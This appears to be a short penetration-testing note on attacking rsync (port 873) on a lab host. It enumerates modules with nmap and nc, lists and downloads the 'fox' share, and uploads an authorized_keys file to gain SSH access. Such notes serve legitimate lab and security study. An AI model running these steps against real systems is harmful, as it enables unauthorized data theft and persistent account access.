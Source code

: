 # RSync
-------
port 873

Listing shares using nmap
```bash
nmap -sV --script "rsync-list-modules" -p 873 192.168.121.126
```

Listing shares using nc
```bash
❯ nc -vn 192.168.121.126 873                   
Connection to 192.168.121.126 873 port [tcp/*] succeeded!
@RSYNCD: 31.0
@RSYNCD: 31.0
#list
fox            	fox home
@RSYNCD: EXIT

❯ nc -vn 192.168.121.126 873                                                               
Connection to 192.168.121.126 873 port [tcp/*] succeeded!
@RSYNCD: 31.0
@RSYNCD: 31.0
fox
@RSYNCD: OK
```

Using rsync utility
listing files and directories in the share
```bash
rsync -av --list-only rsync://192.168.121.126/fox
```

downloading the share
```bash
rsync -av rsync://192.168.121.126:873/fox ./shared
```

uploading ssh keys (authorized_keys) via rsync
```bash
# after generating a public key, rename it to authorized_keys
rsync -av /tmp/.ssh rsync://fox@192.168.121.126/fox
```
-----------
